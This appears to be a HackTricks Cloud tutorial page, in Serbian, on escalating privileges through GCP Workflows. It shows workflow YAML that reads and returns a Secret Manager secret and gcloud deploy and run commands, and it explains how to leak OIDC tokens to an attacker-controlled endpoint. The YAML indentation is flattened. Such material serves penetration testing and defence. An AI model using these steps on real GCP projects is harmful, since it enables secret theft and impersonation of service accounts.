 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Osnovne informacije:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Koliko ja znam, nije moguće dobiti shell sa pristupom metapodacima koji sadrže SA akreditive SA vezanog za Workflow. Međutim, moguće je zloupotrebiti dozvole SA dodavanjem akcija koje treba izvršiti unutar Workflow-a.

Moguće je pronaći dokumentaciju konektora. Na primer, ovo je [**stranica konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** U bočnoj traci moguće je pronaći nekoliko drugih konektora.

I ovde možete pronaći primer konektora koji štampa tajnu:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ažuriranje iz CLI-a:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ako dobijete grešku poput `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, samo **sačekajte minut i pokušajte ponovo**.

Ako nemate web pristup, moguće je pokrenuti i videti izvršenje Workflow-a sa: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Možete takođe proveriti izlaz prethodnih izvršenja kako biste potražili osetljive informacije
{% endhint %}

Imajte na umu da čak i ako dobijete grešku poput `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` zato što nemate tu dozvolu, radni tok je generisan.

### Curjenje OIDC tokena (i OAuth?)

Prema [**dokumentaciji**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), moguće je koristiti korake radnog toka koji će poslati HTTP zahtev sa OAuth ili OIDC tokenom. Međutim, kao u slučaju [Cloud Scheduler](gcp-cloudscheduler-privesc.md), HTTP zahtev sa Oauth tokenom mora biti upućen hostu `.googleapis.com`.

{% hint style="danger" %}
Stoga, **moguće je curenje OIDC tokena ukazivanjem na HTTP krajnju tačku** koju kontroliše korisnik, ali da biste curili **OAuth** token, potrebna vam je **zaobilaženje** te zaštite. Ipak, i dalje možete **kontaktirati bilo koji GCP API da izvršite radnje u ime SA** koristeći bilo koje konektore ili HTTP zahteve sa OAuth tokenom.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Sa ovom dozvolom umesto `workflows.workflows.create` moguće je ažurirati već postojeći workflow i izvršiti iste napade.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
